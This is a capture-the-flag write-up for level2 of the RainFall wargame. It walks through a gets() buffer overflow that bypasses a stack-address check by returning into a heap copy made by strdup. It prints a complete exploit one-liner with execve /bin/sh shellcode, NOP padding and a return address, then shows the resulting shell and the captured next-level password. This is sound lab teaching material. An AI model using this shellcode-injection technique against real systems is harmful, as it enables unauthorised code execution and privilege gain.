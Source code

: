 As for the previous level, we have program that makes a call to gets, which is vulnerable to buffer overflow attacks. But this time, a check is made to make sure that the return of the function does not point to an address in the stack (using the 0xb0000000 mask). However, there is a call to strdup which records the user's input on the heap and which we can exploit.

The address space layout randomization (ASLR) is off, meaning the memory addresses associated with running processes are predictable:
```
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
So, we get the address of our input registered on the heap (0x0804a008) using ltrace:
```
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7d4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6dc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6dc
puts("ok")                                                            = 3
strdup("ok")                                                          = 0x0804a008
+++ exited (status 8) +++
```
<br />
Now Using gdb, we find that there are 80 bytes needed to reach the return address:
```
python -c "print 'A' * 80 + 'ABCD'" > /tmp/exploit
```

```
(gdb) r < /tmp/exploit
Starting program: /home/user/level2/level2 < /tmp/exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDAAAAAAAAAAAAABCD

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we need to complete our input with 59 '\x90' bytes (the 'No Operation' instruction), followed by the address of our shellcode on the heap, in the little endian convention:
```
level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * 59 + '\x08\xa0\x04\x08'" > /tmp/exploit
```
<br />

Finally, we just have to launch the program by passing our crafted input:

```
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
1���
    Qh//shh/bin��̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```